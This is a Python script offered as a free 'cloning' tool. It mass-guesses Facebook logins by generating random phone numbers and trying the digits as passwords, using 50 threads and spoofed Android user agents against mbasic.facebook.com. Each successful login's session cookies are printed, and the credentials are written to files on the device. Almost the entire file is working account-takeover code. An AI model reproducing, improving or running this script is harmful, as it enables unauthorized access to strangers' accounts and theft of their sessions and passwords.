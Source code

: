 import os,sys,time,json,random,re,string,platform,base64,uuid
os.system("git pull")
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
    
#####APK#####
            
            
 
class jalan:
    def __init__(self, z):
        for e in z + "\n":
            sys.stdout.write(e)
            sys.stdout.flush()
            time.sleep(0.009)
            
P = '\x1b[1;97m'
M = '\x1b[1;91m'
H = '\x1b[1;92m'
K = '\x1b[1;93m'
B = '\x1b[1;94m'
U = '\x1b[1;95m' 
O = '\x1b[1;96m'
N = '\x1b[0m'    
Z = "\033[1;30m"
sir = '\033[41m\x1b[1;97m'
x = '\33[m' # DEFAULT
m = '\x1b[1;91m' #RED +
k = '\033[93m' # KUNING +
xr = '\x1b[1;92m' # HIJAU +
hh = '\033[32m' # HIJAU -
u = '\033[95m' # UNGU
kk = '\033[33m' # KUNING -
b = '\33[1;96m' # BIRU -
p = '\x1b[0;34m' # BIRU +
asu = random.choice([m,k,xr,u,b])
my_color = [
 P, M, H, K, B, U, O, N]
warna = random.choice(my_color)
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today()
os.system('xdg-open https://facebook.com/groups/554714119911648/')
logo =("""\033[0;92m
\033[1;32m╔══════════════════════════════════════════════════════════╗\033[1;93m
\033[1;32m║	         \033[1;93m ─━<🌺Assalamu Alaikum🌺>━─\033[1;32m	           ║
\033[1;32m╔══════════════════════════════════════════════════════════╗
\033[1;32m║\033[0;92m:########:'##::::'##:'########:'##::::'##:'##:::::::
\033[1;32m║\033[0;97m... ##..:: ##:::: ##:... ##..:: ##:::: ##: ##:::::::
\033[1;32m║\033[0;91m::: ##:::: ##:::: ##:::: ##:::: ##:::: ##: ##:::::::
\033[1;32m║\033[0;94m::: ##:::: ##:::: ##:::: ##:::: ##:::: ##: ##:::::::
\033[1;32m║\033[0;93m::: ##:::: ##:::: ##:::: ##:::: ##:::: ##: ##:::::::
\033[1;32m║\033[0;95m::: ##:::: ##:::: ##:::: ##:::: ##:::: ##: ##:::::::
\033[1;32m║\x1b[38;5;208m::: ##::::. #######::::: ##::::. #######:: ########:
\033[1;32m╚══════════════════════════════════════════════════════════╝
\033[1;32m╔══════════════════════════════════╗╔══════════════════════╗
\033[1;32m║NOTE : \033[37;41mTHIS TOOLS IS FREE\033[0;m\033[1;32m         ║║        \x1b[1;91m___T_\033[1;32m         ║
\033[1;33m║══════════════════════════════════║║       \x1b[1;91m| o o |\033[1;32m        ║
\033[1;34m║AUTHOR    : Saad Bawa.                   ║║       \x1b[1;91m|__-__|\033[1;32m        ║
\033[1;35m║══════════════════════════════════║║       \x1b[1;91m/| []|'\033[1;32m        ║
\033[1;36m║WHATSAPP  : 03131303281           ║║     \x1b[1;91m()/|___|\()\033[1;32m      ║
\033[1;37m║══════════════════════════════════║║        \x1b[1;91m|_|_|\033[1;32m         ║
\033[1;38m║GITHUB    : Saadkhan1212.             ║║       \x1b[1;91m|_| |_|\033[1;32m        ║
\033[1;39m║══════════════════════════════════║║                      ║
\033[1;31m║SERVER    : DATA :      WORKING   ║╚══════════════════════╝
\033[1;32m║══════════════════════════════════════════════════════════╗
\033[1;33m║FACEBOOK LINK : \x1b[1;91hhttps://www.facebook.com/Tutul.King.Ok.Bro\033[1;32m║
\033[1;34m║══════════════════════════════════════════════════════════║
\033[1;35m║PAGE: \x1b[1;91https://www.facebook.com/Abal.Not.AlLow.Okay.BrotheR\033[1;32m ║
\033[1;36m╚══════════════════════════════════════════════════════════╝\033[1;37m""") 
loop = 0
oks = []
cps = []
 
def clear():
    os.system('clear')
    print(logo)
from time import localtime as lt
from os import system as cmd
ltx = int(lt()[3])
if ltx > 12:
    a = ltx-12
    tag = "PM"
else:
    a = ltx
    tag = "AM"
    
    
try:
    print('\n\n\033[1;33mLoading asset files ... \033[0;97m')
    v = 5.2
    update = ('5.2')
    update = ('5.2')
    if str(v) in update:
        os.system('clear')
    else:pass
except:print('\n\033[1;31mNo internet connection ... \033[0;97m')
#global functions
def dynamic(text):
    titik = ['.   ','..  ','... ','.... ']
    for o in titik:
        print('\r'+text+o),
        sys.stdout.flush();time.sleep(1)
 
#User agents
ugen2=[]
ugen=[]
 
for xd in range(10000):
    aa='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['3','4','5','6','7','8','9','10','11','12','13','14','15','16','17'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
    ugen.append(uaku2)
    
# APK CHECK
def xxr():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print(f' [{xr}^{x}] Example>: {xr}019,017,018,92302,92301,91778{x}')
    print(" ══════════════════════════════════════════")
    rk1 = '0171'
    rk2 = '0172'
    rk3 = '0175'
    rk4 = '017'
    code = random.choice([rk1,rk2,rk3])                      # input(f' [{xr}■{x}] Choose : ')
    os.system('clear')
    print(logo)
    limit = int(input(f'\033[0;97m[{xr}^{x}]\033[0;92m EXAMPLE : \033[0;93m10000, \x1b[38;5;208m20000, \033[0;92m50000 ] \n\033[0;95m═════════════════════════════════════════ \n\033[0;97m[{xr}^{x}] \033[0;92mPUT CLONING LIMIT:\033[0;93m '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    print(logo)
    passx = 0
    HamiiID = []
    print("")
    for bilal in range(passx):
        pww = input(f"[*] Enter Password {bilal+1} : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        clear()
        tl = str(len(user))
        jalan('\033[1;97m====================================================')
        jalan(f'[{xr}^{x}]\x1b[38;5;208m YOUR TOTAL IDS: {xr}'+tl)
        jalan(f'{x}[{xr}^{x}]\033[0;92m PLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        jalan(f'\033[0;97m[{xr}^{x}]\033[0;93m USE YOUR MOBILE DATA ')
        jalan(f'\033[0;97m[{xr}^{x}] \x1b[38;5;208mUse Flight Mode For Speed Up')
        jalan(f'\033[0;97m[{xr}^{x}] \033[0;95mSuper Fast Speed Cloning')
        jalan('\033[1;97m====================================================')
        for love in user:
            pwx = [love[1:]]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
                pwx.append(love)
            manshera.submit(rcrack,uid,pwx,tl)
    print(f"\n{x} ══════════════════════════════════════════")
def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://mbasic.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {"authority": 'mbasic.facebook.com',
            "method": 'GET',
            "scheme": 'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
            'cache-control': 'max-age=0',
            'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"',
            'sec-ch-ua-mobile': '?1',
            'sec-ch-ua-platform': '"Android"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'none',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent': pro}
            lo = session.post('https://mbasic.facebook.com/login/device-based/login/async/?refsrc=deprecated&lwv=100',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\r\033[1;32m[SAAD-OK💚] \033[1;32m'+uid+'\033[1;32m • \033[1;32m' +ps+    '  \n[‎‎🌺]\033[0;93m COOKIE = \033[1;32m'+coki+  '  ''  \033[0;97m')
                cek_apk(session,coki)
                open('/sdcard/SAAD-OK.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                #print('\r\r\33[1;30m[SAAD-CP] ' +uid+ ' • ' +ps+           '  \33[0;97m')
                open('/sdcard/SAAD-CP.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\r%s{x}[{xr}Saad{x}][%s\%s][OK:{xr}%s{x}]'%(H,loop,tl,len(oks))),
        sys.stdout.flush()
    except:
        pass
 
xxr()
 
